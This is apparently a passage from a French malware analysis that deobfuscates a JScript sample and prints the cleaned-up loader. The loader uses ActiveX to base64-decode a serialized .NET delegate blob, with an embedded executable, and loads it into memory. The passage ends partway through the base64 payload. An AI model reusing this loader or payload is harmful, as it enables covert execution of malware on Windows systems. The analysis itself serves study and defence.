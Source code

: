   * La fonction `setversion` n'a pas de corps et n'est jamais appelée. On
  peut donc la retirer.
  * La fonction `debug` n'a pas de corps mais elle est appelée et prend
  ce qui semble etre un message d'erreur en paramètre. Je lui ajoute
  donc un corps affichant ce paramètre sur la sortie d'erreur. Dans le pire
  des cas, j'aurai un autre message d'erreur m'indiquant que l'objet pris
  en paramètre ne peut etre automatiquement converti en `String`.
  * Les noms de variable ne sont pas explicites. Je les renomme via les
  expressions régulières de Vim selon ma compréhension du code.
  * On peut aussi éventuellement corriger l'indentation et le formatage.

Une fois ces modifications effectuées on obtient :

```js
/* global ActiveXObject */

// Print debug message on error output
function debug(s) { console.error(s); }

// Takes an Active X compatible program encoded in base64
// Decode it
// Map it into memory
// Return the memory chunk
function mapCodeInMemory(program) {
  var asciiEncoding = new ActiveXObject('System.Text.ASCIIEncoding');
  var byteCount2OfProgram = asciiEncoding.GetByteCount_2(program);
  var bytes4Program = asciiEncoding.GetBytes_4(program);
  var base64Transform = new ActiveXObject('System.Security.Cryptography.FromBase64Transform');

  bytes4Program = base64Transform.TransformFinalBlock(bytes4Program, 0, byteCount2OfProgram);

  var memoryStream = new ActiveXObject('System.IO.MemoryStream');
  memoryStream.Write(bytes4Program, 0, (byteCount2OfProgram / 4) * 3);
  memoryStream.Position = 0;
  return memoryStream;
}

// Active X program in base64
var bigBase64 =
'AAEAAAD/////AQAAAAAAAAAEAQAAACJTeXN0ZW0uRGVsZWdhdGVTZXJpYWxpemF0aW9uSG9sZGVy'+
'AwAAAAhEZWxlZ2F0ZQd0YXJnZXQwB21ldGhvZDADAwMwU3lzdGVtLkRlbGVnYXRlU2VyaWFsaXph'+
'dGlvbkhvbGRlcitEZWxlZ2F0ZUVudHJ5IlN5c3RlbS5EZWxlZ2F0ZVNlcmlhbGl6YXRpb25Ib2xk'+
'ZXIvU3lzdGVtLlJlZmxlY3Rpb24uTWVtYmVySW5mb1NlcmlhbGl6YXRpb25Ib2xkZXIJAgAAAAkD'+
'AAAACQQAAAAEAgAAADBTeXN0ZW0uRGVsZWdhdGVTZXJpYWxpemF0aW9uSG9sZGVyK0RlbGVnYXRl'+
'RW50cnkHAAAABHR5cGUIYXNzZW1ibHkGdGFyZ2V0EnRhcmdldFR5cGVBc3NlbWJseQ50YXJnZXRU'+
'eXBlTmFtZQptZXRob2ROYW1lDWRlbGVnYXRlRW50cnkBAQIBAQEDMFN5c3RlbS5EZWxlZ2F0ZVNl'+
'cmlhbGl6YXRpb25Ib2xkZXIrRGVsZWdhdGVFbnRyeQYFAAAAL1N5c3RlbS5SdW50aW1lLlJlbW90'+
'aW5nLk1lc3NhZ2luZy5IZWFkZXJIYW5kbGVyBgYAAABLbXNjb3JsaWIsIFZlcnNpb249Mi4wLjAu'+
'MCwgQ3VsdHVyZT1uZXV0cmFsLCBQdWJsaWNLZXlUb2tlbj1iNzdhNWM1NjE5MzRlMDg5BgcAAAAH'+
'dGFyZ2V0MAkGAAAABgkAAAAPU3lzdGVtLkRlbGVnYXRlBgoAAAANRHluYW1pY0ludm9rZQoEAwAA'+
'ACJTeXN0ZW0uRGVsZWdhdGVTZXJpYWxpemF0aW9uSG9sZGVyAwAAAAhEZWxlZ2F0ZQd0YXJnZXQw'+
'B21ldGhvZDADBwMwU3lzdGVtLkRlbGVnYXRlU2VyaWFsaXphdGlvbkhvbGRlcitEZWxlZ2F0ZUVu'+
'dHJ5Ai9TeXN0ZW0uUmVmbGVjdGlvbi5NZW1iZXJJbmZvU2VyaWFsaXphdGlvbkhvbGRlcgkLAAAA'+
'CQwAAAAJDQAAAAQEAAAAL1N5c3RlbS5SZWZsZWN0aW9uLk1lbWJlckluZm9TZXJpYWxpemF0aW9u'+
'SG9sZGVyBgAAAAROYW1lDEFzc2VtYmx5TmFtZQlDbGFzc05hbWUJU2lnbmF0dXJlCk1lbWJlclR5'+
'cGUQR2VuZXJpY0FyZ3VtZW50cwEBAQEAAwgNU3lzdGVtLlR5cGVbXQkKAAAACQYAAAAJCQAAAAYR'+
'AAAALFN5c3RlbS5PYmplY3QgRHluYW1pY0ludm9rZShTeXN0ZW0uT2JqZWN0W10pCAAAAAoBCwAA'+
'AAIAAAAGEgAAACBTeXN0ZW0uWG1sLlNjaGVtYS5YbWxWYWx1ZUdldHRlcgYTAAAATVN5c3RlbS5Y'+
'bWwsIFZlcnNpb249Mi4wLjAuMCwgQ3VsdHVyZT1uZXV0cmFsLCBQdWJsaWNLZXlUb2tlbj1iNzdh'+
'NWM1NjE5MzRlMDg5BhQAAAAHdGFyZ2V0MAkGAAAABhYAAAAaU3lzdGVtLlJlZmxlY3Rpb24uQXNz'+
'ZW1ibHkGFwAAAARMb2FkCg8MAAAAAB4AAAJNWpAAAwAAAAQAAAD//wAAuAAAAAAAAABAAAAAAAAA'+
'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAACAAAAADh+6DgC0Cc0huAFMzSFUaGlzIHByb2dy'+
'YW0gY2Fubm90IGJlIHJ1biBpbiBET1MgbW9kZS4NDQokAAAAAAAAAFBFAABMAQMAEM5wWgAAAAAA'+
'AAAA4AAiIAsBMAAAFAAAAAgAAAAAAADeMgAAACAAAABAAAAAAAAQACAAAAACAAAEAAAAAAAAAAQA'+
'AAAAAAAAAIAAAAACAAAAAAAAAwBAhQAAEAAAEAAAAAAQAAAQAAAAAAAAEAAAAAAAAAAAAAAAjDIA'+
```